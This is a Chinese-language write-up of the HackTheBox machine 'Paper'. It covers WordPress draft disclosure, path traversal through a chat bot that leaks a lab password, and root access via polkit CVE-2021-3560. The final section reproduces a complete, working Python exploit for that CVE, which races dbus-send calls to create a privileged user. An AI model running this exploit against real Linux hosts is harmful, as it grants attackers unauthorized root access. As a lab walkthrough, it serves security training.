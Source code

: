 ```yaml
---
title: Paper
date: 2022-02-25 15:35:53
tags: HackThebox
categories: 路径穿越漏洞
---
```


## 信息收集
可以看到目标端口只开放了ssh和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/8a3867d4a1e345a5a11c281ff39e1f29.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
当我们访问web服务时，发现只是一个普通的apache搭建的页面。进行目录扫描时，发现一个`manual`页面，但是里面只有一些没价值的信息

<!--more-->

![在这里插入图片描述](https://img-blog.csdnimg.cn/07f9450ea45947e0af77ec195c369cf1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/74d839c7fc824a2a8af4b2c081cd01cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

但是在回应包中，我们看到了一个`office.paper`这样的域名，我们添加到hosts文件后尝试去访问一下
![在这里插入图片描述](https://img-blog.csdnimg.cn/b73a8b76a26d4ae289b29b6085ed2c11.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
打开页面后，我们发现是wordpress搭建的页面。我们果断使用wpscan工具扫描一下是否存在漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/178c760fdb3e46848aa9a75498698290.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现wordpress的版本是`5.2.3`
![在这里插入图片描述](https://img-blog.csdnimg.cn/43583dd7ee5c46fa987f01ac6c04519b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们在EDB上找到一个未经身份验证查看他人私人帖子的漏洞，去尝试一下是否能够成功利用。但是发现只出现404页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/5edd974c3ea34e8c953c7d8c06a35033.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
尝试去掉order参数，成功显示出帖子的详细内容

```xml


test

Micheal please remove the secret from drafts for gods sake!

Hello employees of Blunder Tiffin,

Due to the orders from higher officials, every employee who were added to this blog is removed and they are migrated to our new chat system.

So, I kindly request you all to take your discussions from the public blog to a more private chat system.

-Nick

# Warning for Michael

Michael, you have to stop putting secrets in the drafts. It is a huge security issue and you have to stop doing it. -Nick

Threat Level Midnight

A MOTION PICTURE SCREENPLAY,
WRITTEN AND DIRECTED BY
MICHAEL SCOTT

[INT:DAY]

Inside the FBI, Agent Michael Scarn sits with his feet up on his desk. His robotic butler Dwigt….

# Secret Registration URL of new Employee chat system

http://chat.office.paper/register/8qozr226AhkCHZdyY

# I am keeping this draft unpublished, as unpublished drafts cannot be accessed by outsiders. I am not that ignorant, Nick.

# Also, stop looking at my drafts. Jeez!

```
从上面的内容中，我们可以得到了一个新的聊天系统网址`http://chat.office.paper/register/8qozr226AhkCHZdyY`。尝试访问发现是一个注册页面
![在这里插入图片描述](https://img-blog.csdnimg.cn/2c563f2f9ee4472180285e1333b6c03e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
注册成功后我们进入了一个聊天窗口，
![在这里插入图片描述](https://img-blog.csdnimg.cn/ae192b2228ce4f5a8fea1614b00fe234.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
在这里有人说到，只要添加了一个`recyclops`这个新的机器人，机器人就会告诉你你想要问题的答案

```xml
 kellylikescupcakes Hello. I am Recyclops. A bot assigned by Dwight. I will have my revenge on earthlings, but before that, I have to help my Cool friend Dwight to respond to the annoying questions asked by his co-workers, so that he may use his valuable time to... well, not interact with his co-workers.
Most frequently asked questions include:
- What time is it?
- What new files are in your sales directory?
- Why did the salesman crossed the road?
- What's the content of file x in your sales directory? etc.
Please note that I am a beta version and I still have some bugs to be fixed.
How to use me ? :
1. Small Talk:
You can ask me how dwight's weekend was, or did he watched the game last night etc.
eg: 'recyclops how was your weekend?' or 'recyclops did you watched the game last night?' or 'recyclops what kind of bear is the best?
2. Joke:
You can ask me Why the salesman crossed the road.
eg: 'recyclops why did the salesman crossed the road?'
<=====The following two features are for those boneheads, who still don't know how to use scp. I'm Looking at you Kevin.=====>
For security reasons, the access is limited to the Sales folder.
3. Files:
eg: 'recyclops get me the file test.txt', or 'recyclops could you send me the file src/test.php' or just 'recyclops file test.txt'
4. List:
You can ask me to list the files
5. Time:
You can ask me to what the time is
eg: 'recyclops what time is it?' or just 'recyclops time'
```
## 漏洞利用
目前我们知道的信息是，我们有一个可互动的recyclops机器人，机器人可以帮我们获取文件内容，并且我们不能在频道内发言。我们尝试让它读取test.txt文件时，它说这个文件并不存在，但是却暴露出了当前所在的路径，那么我们可以尝试测试是否存在路径穿越的漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/f56f488f29004c4ba948a413f0c78b38.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
经过我们的反复测试，我们发现了确实存在路径穿越漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/5d4e7e5841fc4e34aa1a81f1c83dbf6c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们查看一下当前目录上都存在哪些文件，很可惜没什么有价值的文件信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/29f5abe791764b659abbc217771aa19a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那我们再查看上一级目录的文件信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/709be64a7a4840d6ac7b8856966c9fe3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个user.txt文件，尝试读取其内容却告诉我们权限不够
![在这里插入图片描述](https://img-blog.csdnimg.cn/8e0ca8de1430401d98f7d27fccac0641.png)
但是我们发现了一个十分有趣的目录`hubot`，发现目录里存在一个配置文件`.env`，在里面找到一个密码`Queenofblad3s!23`
![在这里插入图片描述](https://img-blog.csdnimg.cn/8811056432c040ffa50cd28396878e3a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试使用ssh连接是否能成功，账户使用`dwight`
![在这里插入图片描述](https://img-blog.csdnimg.cn/5edd446e145244249b04910ded3c123c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
## 提权ROOT
这里提权挺迷的，但是还是有迹可循。我们查看进程时，发现存在一个`polkit`进程，这个应用是存在漏洞编号的，对应的漏洞编号为`CVE-2021-3560`
![在这里插入图片描述](https://img-blog.csdnimg.cn/957af5667a09416987dac45eaa386a79.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

```python
import os
import sys
import time
import subprocess
import random
import pwd


print ("**************")
print("Exploit: Privilege escalation with polkit - CVE-2021-3560")
print("Exploit code written by Ahmad Almorabea @almorabea")
print("Original exploit author: Kevin Backhouse ")
print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")
print ("**************")
print("[+] Starting the Exploit ")
time.sleep(3)

check = True
counter = 0
while check:
	counter = counter +1
	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
	try:
    		#print('1 - Running in process', process.pid)
		Random = random.uniform(0.006,0.009)
		process.wait(timeout=Random)
		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

	user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
	if user.find("uid") != -1:
		print("[+] User Created with the name of ahmed")
		print("[+] Timed out at: "+str(Random))
		check =False
		break
	if counter > 2000:
		print("[-] Couldn't add the user, try again it may work")
		sys.exit(0)


for i in range(200):
	#print(i)
	uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

	#In case you need to put a password un-comment the code below and put your password after string:yourpassword'
	password = "string:"
	#res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
	#password = f"string:{res.rstrip()}"

	process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
	try:
    		#print('1 - Running in process', process.pid)
    		Random = random.uniform(0.006,0.009)
    		process.wait(timeout=Random)
    		process.kill()
	except subprocess.TimeoutExpired:
    		#print('Timed out - killing', process.pid)
    		process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)
```
我们将脚本上传到目标主机上运行
![在这里插入图片描述](https://img-blog.csdnimg.cn/81867cb04d4a4523b628cfbe041c54e5.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
